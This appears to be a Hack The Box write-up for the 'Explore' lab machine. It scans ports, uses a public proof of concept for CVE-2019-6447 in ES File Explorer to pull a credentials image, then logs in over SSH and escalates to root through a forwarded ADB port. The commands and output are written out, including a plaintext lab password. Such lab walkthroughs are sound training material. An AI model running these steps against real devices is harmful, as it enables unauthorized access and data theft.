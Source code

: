 ```yaml
---
layout: post
title: HTB Explore Writeup  
subtitle: Easy Box
cover-img: /assets/img/explore.png.png
thumbnail-img: /assets/img/explore.png.png
tags: [HTB]
---
```


# Notes
![Explore](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/explore.png.png)
IP:10.10.10.247

## Port Scan
```
PORT      STATE    SERVICE                                                                                            
2222/tcp  open     EtherNetIP-1                                                                                       
5555/tcp  filtered freeciv                                                                                            
39773/tcp open     unknown                                                                                            
42135/tcp open     unknown                                                                                            
59777/tcp open     unknown 

```
## Port 2222
SSH-2.0-SSH Server - Banana Studio 

## Port 5555
This port is being used by Android Debug Bridge (adb) and is filtered

## Port 59777
A quick google search showed that port 59777 is used by ES File Explorer. ES File Explorer is a file manager/explorer for android devices. It looks like there is a CVE for ES File Explorer CVE:2019-6447, I used a poc script I found on github https://github.com/fs0c131y/ESFileExplorerOpenPortVuln. This script lets me list and download files off the device.

There was a great write up of this bug https://medium.com/@knownsec404team/analysis-of-es-file-explorer-security-vulnerability-cve-2019-6447-7f34407ed566 

Using the tool I was able to find a file called "creds.jpg"

```
┌──(root💀kali)-[~/htb/explore]
└─# python3 poc.py --cmd listPics --ip 10.10.10.247 
[*] Executing command: listPics on 10.10.10.247
[*] Server responded with: 200

{"name":"concept.jpg", "time":"4/21/21 02:38:08 AM", "location":"/storage/emulated/0/DCIM/concept.jpg", "size":"135.33 KB (138,573 Bytes)", },
{"name":"anc.png", "time":"4/21/21 02:37:50 AM", "location":"/storage/emulated/0/DCIM/anc.png", "size":"6.24 KB (6,392 Bytes)", },
{"name":"creds.jpg", "time":"4/21/21 02:38:18 AM", "location":"/storage/emulated/0/DCIM/creds.jpg", "size":"1.14 MB (1,200,401 Bytes)", },
{"name":"224_anc.png", "time":"4/21/21 02:37:21 AM", "location":"/storage/emulated/0/DCIM/224_anc.png", "size":"124.88 KB (127,876 Bytes)"}

```

I downloaded it

```
┌──(root💀kali)-[~/htb/explore]
└─# python3 poc.py -g /storage/emulated/0/DCIM/creds.jpg --ip 10.10.10.247 
[*] Getting file: /storage/emulated/0/DCIM/creds.jpg
        from: 10.10.10.247
[*] Server responded with: 200
[*] Writing to file: creds.jpg
                               
```

It was a picture of some credentials `kristi:Kr1sT!5h@Rp3xPl0r3!`

## User Shell

I was able to ssh into it by using the credentials found 

```
┌──(root💀kali)-[~/htb]
└─# ssh -p 2222 kristi@10.10.10.247
Password authentication
Password: 
```

Looking inside `/sdcard` I found the user flag

## Root
Back when I did my nmap scan port 5555 was running adb. Now that we have a valid ssh session we can port forward back to kali and access adb

I found the commands for abd here https://adbshell.com/

Port forward
`ssh kristi@10.10.10.247 -p 2222 -L 5555:localhost:5555`

Connect to abd
`adb connect 127.0.0.1:5555`

We can restart the adb service as root
`adb root`

From there adb is running with high privs so we can drop into a shell and su to root
```
──(root💀kali)-[~/htb]
└─# adb shell                                                                                                                                                                                                                            1 ⨯
x86_64:/ $ id
uid=2000(shell) gid=2000(shell) groups=2000(shell),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc),3011(uhid) context=u:r:shell:s0
x86_64:/ $ su
:/ # id
uid=0(root) gid=0(root) groups=0(root) context=u:r:su:s0

```
